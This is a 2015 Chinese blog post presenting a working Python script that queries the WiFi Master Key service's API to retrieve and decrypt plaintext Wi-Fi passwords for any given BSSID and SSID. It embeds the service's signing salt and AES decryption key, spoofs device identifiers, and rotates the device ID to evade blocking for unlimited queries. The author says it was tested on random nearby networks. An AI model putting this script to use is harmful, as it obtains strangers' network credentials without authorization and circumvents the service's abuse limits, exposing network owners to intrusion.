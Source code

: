 ```yaml
---
layout: post
keywords: WiFi万能钥匙,API
description: 
title: WiFi万能钥匙Python查询脚本
categories: [软件]
tags: [Wireless, Python, API]
tldr: true
excerpt: 以TheCjw的脚本为基础添加了dhid更新的功能，相关原理参照了<a href="http://m.oschina.net/blog/338168">WIFI万能钥匙协议分析</a>，目前可以每天无限次数查询明文密码
group: archive
icon: terminal
---
```


刚听说WiFi万能钥匙的时候已经接触过无线安全的东西，而且也用过神器aircrack-ng，所以对WiFi万能钥匙就没信任过，后来终于被各种讨伐。   
此脚本以TheCjw的脚本为基础（博客文章：<a href="http://thecjw.0ginr.com/blog/archives/534">Lost and Found - WIFI万能钥匙Python查询脚本</a>），增加了更新dhid的功能，相关原理参照了<a href="http://m.oschina.net/blog/338168">WIFI万能钥匙协议分析</a>，虽说初学Python不过至少代码能用……   

截止北京时间2015年6月22日，23点51分，脚本依然能够正常使用。使用方法，修改代码wifi.add_ssid(“aa:bb:cc:dd:ee:ff”, “SSID”)为自己/要查询的BSSID和SSID组合。   

{% highlight python %}
#!/usr/bin/env python
# -*- encoding: utf-8 -*-
# Author: TheCjw<thecjw@qq.com>
# Created on 22:26 2015/2/11

# Editer: Hamster<ihamsterball@gmail.com>
# Automatically change dhid to prevent block
# So that enable to query unlimitedly
# Edited on 23:26 2015/6/22

__author__ = "TheCjw"

import collections
import hashlib
import json

import requests
from Crypto.Cipher import AES

class Initdhid(object):
    def __init__(self):
        self.salt = "LQ9$ne@gH*Jq%KOL"
        self.request_params = {}

        self.request_url = "http://wifiapi02.51y5.net/wifiapi/fa.cmd"
        self.request_params["capbssid"] = "d8:86:e6:6f:a8:7c"
        self.request_params["model"] = "Nexus+4"
        self.request_params["och"] = "wandoujia"
        self.request_params["appid"] = "0001"
        self.request_params["mac"] = "d8:86:e6:6f:a8:7c"
        self.request_params["wkver"] = "2.9.38"
        self.request_params["lang"] = "cn"
        self.request_params["capbssid"] = "test"
        self.request_params["uhid"] = ""
        self.request_params["st"] = "m"
        self.request_params["chanid"] = "guanwang"
        self.request_params["dhid"] = ""
        self.request_params["os"] = "android"
        self.request_params["scrs"] = "768"
        self.request_params["imei"] = "355136052333516"
        self.request_params["manuf"] = "LGE"
        self.request_params["osvercd"] = "19"
        self.request_params["ii"] = "355136052391516"
        self.request_params["osver"] = "5.0.2"
        self.request_params["pid"] = "initdev:commonswitch"
        self.request_params["misc"] = "google/occam/mako:4.4.4/KTU84P/1227136:user/release-keys"

        # Fill these shit.
        self.request_params["sign"] = ""

        self.request_params["v"] = "633"
        self.request_params["sim"] = ""
        self.request_params["method"] = "getTouristSwitch"#Get new dhid
        self.request_params["scrl"] = "1184"

        self.headers = {
            "Content-type": "application/x-www-form-urlencoded",
            "Host": "wifiapi02.51y5.net",
            "Accept": "text/plain"
        }

    def __sign__(self, data):
        return hashlib.md5(data.encode("utf-8")).hexdigest().upper()

    def __post__(self):
        r = requests.post(self.request_url, data=self.request_params, headers=self.headers)
        return r.text

    def __sign_data__(self):
        self.request_params["sign"] = ""
        value = ""
        for key in collections.OrderedDict(sorted(self.request_params.items())):
            value += self.request_params[key]
        value += self.salt
        return self.__sign__(value)

    def request(self):
        self.request_params["sign"] = self.__sign_data__()
        ret_data = json.loads(self.__post__())
        return ret_data["initdev"]["dhid"]

class WifiDemo(object):
    def __init__(self):
        self.salt = "LQ9$ne@gH*Jq%KOL"
        self.request_url = "http://wifiapi02.51y5.net/wifiapi/fa.cmd"

        self.request_params = {}
        self.request_params["och"] = "wandoujia"
        self.request_params["ii"] = ""
        self.request_params["appid"] = "0001"
        # self.request_params["pid"] = "qryapwithoutpwd:commonswitch"
        self.request_params["pid"] = "qryapwd:commonswitch"
        self.request_params["lang"] = "cn"
        self.request_params["v"] = "633"
        self.request_params["uhid"] = "a0000000000000000000000000000001"
        # self.request_params["method"] = "getSecurityCheckSwitch"
        self.request_params["method"] = "getDeepSecChkSwitch"
        self.request_params["st"] = "m"
        self.request_params["chanid"] = "guanwang"

        # Fill these shit.
        self.request_params["sign"] = ""
        self.request_params["bssid"] = ""
        self.request_params["ssid"] = ""

        # device id.
        self.request_params["dhid"] = "4028b2964e01aa00014e1a8641aa4675"
        # device mac.
        self.request_params["mac"] = "d8:86:e6:6f:a8:7c"

        self.headers = {
            "Content-type": "application/x-www-form-urlencoded",
            "Host": "wifiapi02.51y5.net",
            "Accept": "text/plain"
        }

    def __sign__(self, data):
        return hashlib.md5(data.encode("utf-8")).hexdigest().upper()


    def __post__(self):
        r = requests.post(self.request_url, data=self.request_params, headers=self.headers)
        return r.text

    def __add_bssid__(self, bssid):
        self.request_params["bssid"] += bssid + ","

    def __add_ssid__(self, ssid):
        self.request_params["ssid"] += ssid + ","

    def __sign_data__(self):
        self.request_params["sign"] = ""
        value = ""
        for key in collections.OrderedDict(sorted(self.request_params.items())):
            value += self.request_params[key]
        value += self.salt
        return self.__sign__(value)

    def add_ssid(self, bssid, ssid):
        self.__add_bssid__(bssid)
        self.__add_ssid__(ssid)
        
    def request(self):
        tmp = Initdhid()
        self.request_params["dhid"] = tmp.request()
        self.request_params["sign"] = self.__sign_data__()
        ret_data = json.loads(self.__post__())
        if ret_data["retCd"] == "-1111":
            # update key and retry.
            self.salt = ret_data["retSn"]
            return self.request()
        elif ret_data["retCd"] == "0":
            self.salt = ret_data["retSn"]
            return ret_data

def main():
    wifi = WifiDemo()

    # Add BSSID & SSID
    wifi.add_ssid("aa:bb:cc:dd:ee:ff", "SSID_1")
    wifi.add_ssid("ab:bc:cd:de:ef:ff", "SSID_2")

    result = wifi.request()

    if len(result["qryapwd"]["psws"]) == 0:
        print "Not found."
        return

    for info in result["qryapwd"]["psws"]:
        ssid = result["qryapwd"]["psws"][info]["ssid"]
        bssid = result["qryapwd"]["psws"][info]["bssid"]
        encrypt_data = result["qryapwd"]["psws"][info]["pwd"]

        cipher = AES.new(b"jh16@`~78vLsvpos", AES.MODE_CBC, b"j#bd0@vp0sj!3jnv")
        decrypt_data = cipher.decrypt(encrypt_data.decode("hex"))
        length = int(decrypt_data[:3])
        password = decrypt_data[3:][:length]

        print "ssid", ssid
        print "bssid", bssid
        print "password", password
        print


if __name__ == "__main__":
    main()
{% endhighlight %}

查询结果如图，这是家里附近的随机选取的几个WiFi：  
<img src="/image/post/20150622/wifi.png"></img>  

要正常运行需要requests库和Crypto.Cipher库